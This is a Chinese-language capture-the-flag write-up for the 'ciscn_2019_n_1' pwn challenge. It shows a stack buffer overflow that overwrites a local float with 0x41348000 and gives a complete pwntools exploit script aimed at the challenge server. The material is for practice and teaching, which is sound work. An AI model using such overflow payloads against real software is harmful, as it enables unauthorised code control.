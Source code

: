# ciscn_2019_n_1

## 分析程序

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-14_19-50-33.png)

分析程序 可以得到，该题即为 栈溢出，所以需要填充栈，V1填充 使得 v2==11.28125 这样一个小数，**关键是得到 11.285125这样一个小数在栈中的存储形式**



## 小数的存储获取

### IDA获取

由于该题的数据 静态存储，已经存储在程序中，所以分析其汇编代码，**即可得到 其数据位 0x41348000** ，如下图所示：

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-09-14_19-53-42.png)



### 程序获取

```c++
#include <iostream>
#include <iomanip>

using namespace std;

int main(){
  float num = 11.28125;
  unsigned char *p = (unsigned char *)&num;
  cout<<"0x"<< setfill('0') << hex
      <<setw(2) << (int)*(p+3)
      <<setw(2) << (int)*(p+2)
      <<setw(2) << (int)*(p+1)
      <<setw(2) << (int)*(p+0)<<endl;
  return 0;
}
```



## Payload

```python
from pwn import *

#io = process("/home/always/PWN/ciscn_2019_n_1")
io = remote("node4.buuoj.cn","29444")

val = p32(0x41348000)
payload = flat(44*'A',val)
io.sendline(payload)

io.interactive()
```

